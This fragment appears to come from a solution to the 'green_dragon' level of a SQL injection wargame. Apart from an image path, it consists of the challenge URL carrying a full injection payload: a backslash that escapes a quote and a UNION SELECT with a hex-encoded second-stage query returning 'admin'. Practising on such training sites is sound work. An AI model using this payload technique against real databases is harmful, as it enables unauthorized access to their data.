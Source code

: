 https://los.rubiya.kr/chall/green_dragon_74d944f888fd3f9cf76e4e230e78c45b.php?id=\&pw=union%20select%200x5c,%200x756e696f6e2073656c656374203078363136343664363936652d2d202d%20--%20-